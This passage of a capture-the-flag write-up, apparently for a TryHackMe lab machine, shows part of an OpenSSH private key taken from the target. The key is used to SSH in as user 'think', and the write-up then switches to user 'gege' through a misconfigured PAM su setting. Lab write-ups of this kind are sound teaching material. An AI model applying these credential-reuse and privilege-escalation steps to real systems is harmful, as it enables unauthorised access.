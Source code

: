 ```bash
e8ShcdgU4htakbSA8K2pYwaSnpxsp/LHk9adQi4bB0i8bCTX8HQqzU8zgaO9ewjLpGBwf4
Y0qNNo8wyTluGrKf72vDbajti9RwuO5wXhdi+RNhktuv6B4aGLTmDpNUk5UALknD2qAQAA
AMBU+E8sqbf2oVmb6tyPu6Pw/Srpk5caQw8Dn5RvG8VcdPsdCSc29Z+frcDkWN2OqL+b0B
zbOhGp/YwPhJi098nujXEpSied8JCKO0R9wU/luWKeorvIQlpaKA5TDZaztrFqBkE8FFEQ
gKLOtX3EX2P11ZB9UX/nD9c30jEW7NrVcrC0qmts4HSpr1rggIm+JIom8xJQWuVK42Dmun
lJqND0YfSgN5pqY4hNeqWIz2EnrFxfMaSzUFacK8WLQXVP2x8AAADBAPkcG1ZU4dRIwlXE
XX060DsJ9omNYPHOXVlPmOov7Ull6TOdv1kaUuCszf2dhl1A/BBkGPQDP5hKrOdrh8vcRR
A+Eog/y0lw6CDUDfwGQrqDKRxVVUcNbGNhjgnxRRg2ODEOK9G8GsJuRYihTZp0LniM2fHd
jAoSAEuXfS7+8zGZ9k9VDL8jaNNM+BX+DZPJs2FxO5MHu7SO/yU9wKf/zsuu5KlkYGFgLV
Ifa4X2anF1HTJJVfYWUBWAPPsKSfX1UQAAAMEAydo2UnBQhJUia3ux2LgTDe4FMldwZ+yy
PiFf+EnK994HuAkW2l3R36PN+BoOua7g1g1GHveMfB/nHh4zEB7rhYLFuDyZ//8IzuTaTN
7kGcF7yOYCd7oRmTQLUZeGz7WBr3ydmCPPLDJe7Tj94roX8tgwMO5WCuWHym6Os8z0NKKR
u742mQ/UfeT6NnCJWHTorNpJO1fOexq1kmFKCMncIINnk8ZF1BBRQZtfjMvJ44sj9Oi4aE
81DXo7MfGm0bSFAAAAEnRoaW5rQHVidW50dXNlcnZlcg==
-----END OPENSSH PRIVATE KEY-----
```

Save that file content in our kali machine with a file named “id_rsa” and give ti permission chmod 600.

```bash
┌──(kali㉿kali)-[~/tryhackme/smol]
└─$ chmod 600 id_rsa
```

Now, ssh to user think:

```bash
┌──(kali㉿kali)-[~/tryhackme/smol]
└─$ ssh -i id_rsa think@10.10.252.187
....
think@smol:~$ id
uid=1000(think) gid=1000(think) groups=1000(think),1004(dev),1005(internal)
```

---

### Shell as gege:

Searched user gege’s home directory and there was a file stored named wordpress.old.zip, maybe backup file of old wordpress they used in that machine. But only user gege can read it. So we tried to switch to user gege directly and it worked!, because there was  misconfiguration in  **PAM** configuration file for `su` located at `/etc/pam.d/su`

```bash
think@smol:/home/gege$ ls -la
total 31532
drwxr-x--- 2 gege internal     4096 Aug 18  2023 .
drwxr-xr-x 6 root root         4096 Aug 16  2023 ..
lrwxrwxrwx 1 root root            9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 gege gege          220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 gege gege         3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 gege gege          807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root            9 Aug 18  2023 .viminfo -> /dev/null
-rwxr-x--- 1 root gege     32266546 Aug 16  2023 wordpress.old.zip
think@smol:/home/gege$ su gege
gege@smol:~$ id
uid=1003(gege) gid=1003(gege) groups=1003(gege),1004(dev),1005(internal)
```

---